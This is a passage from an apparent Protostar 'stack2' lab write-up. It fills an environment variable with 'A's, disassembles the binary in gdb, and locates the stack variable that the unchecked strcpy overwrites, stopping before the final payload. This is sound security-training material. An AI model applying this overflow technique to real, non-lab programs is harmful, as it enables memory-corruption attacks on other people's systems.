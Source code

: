 Since "GREENIE" is a variable, we can assign value to it. You get the point right? :D 

All we need to do is set a value that overflows **modified** on the stack, and we’ll beat this level!"

I will set an arbitrary value to "GREENIE" and inspecting the stack using `gdb`:

```shell
user@protostar:/opt/protostar/bin$ env -i GREENIE=$(python -c 'print "A" * 20') gdb ./stack2
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048494 <main+0>:    push   ebp
0x08048495 <main+1>:    mov    ebp,esp
0x08048497 <main+3>:    and    esp,0xfffffff0
0x0804849a <main+6>:    sub    esp,0x60
0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
0x080484a9 <main+21>:   mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:   cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
0x080484b4 <main+32>:   mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:   mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
0x080484c8 <main+52>:   mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:   mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:   lea    eax,[esp+0x18]
0x080484dc <main+72>:   mov    DWORD PTR [esp],eax
0x080484df <main+75>:   call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:   mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
0x080484ed <main+89>:   jne    0x80484fd <main+105>
0x080484ef <main+91>:   mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
0x080484fb <main+103>:  jmp    0x8048512 <main+126>
0x080484fd <main+105>:  mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:  mov    eax,0x8048641
0x08048506 <main+114>:  mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:  mov    DWORD PTR [esp],eax
0x0804850d <main+121>:  call   0x80483ac <printf@plt>
0x08048512 <main+126>:  leave
0x08048513 <main+127>:  ret
```

From the assembly code, **modified** is stored at **[esp+0x58]**. I will set a breakpoint at `0x080484e4`, right after the **strcpy** call.

``` shell
(gdb) break *0x080484e4
Breakpoint 1 at 0x80484e4: file stack2/stack2.c, line 22.
(gdb) r
Starting program: /opt/protostar/bin/stack2

Breakpoint 1, main (argc=1, argv=0xbffffe94) at stack2/stack2.c:22
...
(gdb) x/24wx $esp
0xbffffd80:     0xbffffd98      0xbfffffa1      0xb7fff8f8      0xb7f0186e
0xbffffd90:     0xb7fd7ff4      0xb7ec6165      0x41414141      0x41414141
0xbffffda0:     0x41414141      0x41414141      0x41414141      0x08048300
0xbffffdb0:     0xb7ff1040      0x08049748      0xbffffde8      0x08048549
0xbffffdc0:     0xb7fd8304      0xb7fd7ff4      0x08048530      0xbffffde8
0xbffffdd0:     0xb7ec6365      0xb7ff1040      0x00000000      0xbfffffa1
(gdb) x/wx $esp+0x58
0xbffffdd8:     0x00000000
```
